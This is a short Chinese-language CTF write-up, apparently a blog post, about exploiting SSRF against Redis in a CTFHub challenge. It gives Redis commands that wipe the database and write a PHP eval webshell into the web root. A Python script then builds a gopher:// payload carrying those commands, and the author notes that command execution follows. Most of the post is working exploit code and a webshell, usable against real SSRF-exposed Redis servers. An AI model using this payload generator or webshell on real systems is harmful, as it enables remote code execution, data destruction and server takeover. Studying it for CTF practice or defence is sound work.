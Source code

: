 ```yaml
---
title: CTFHub中SSRF打Redis
date: {{ date }}
top: false
cover: false
password:
toc: true
mathjax: true
summary:
tags: [SSRF,CTF]
categories: [SSRF,CTF]
---
```


> Redis相关协议
>
> [Redis配置详解](https://www.redis.com.cn/redis-configuration/)
>
> [浅析Redis中SSRF的利用](https://xz.aliyun.com/t/5665)

这题进行写文件后执行命令。

Redis命令如下：

```bash
flushall
set 1 '<?php eval($_GET["cmd"]);?>'
config set dir /var/www/html
config set dbfilename shell.php
save
```

这是我是直接拿带佬们的脚本打的，大概看了一下Redis原理与协议还有它的格式，需要找个时间自己动手写一下exp加深印象。

稍微改了一下，能在python3.8跑，原exp应该是在python2环境中执行

```python
from urllib import parse
protocol="gopher://"
ip="192.168.163.128"
port="6379"
shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""
cmd=["flushall",
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += parse.quote(redis_format(x))
    print(payload)
```

生成的攻击流量需要再次url编码后才行。

写入一句话之后就可以进行命令执行啦。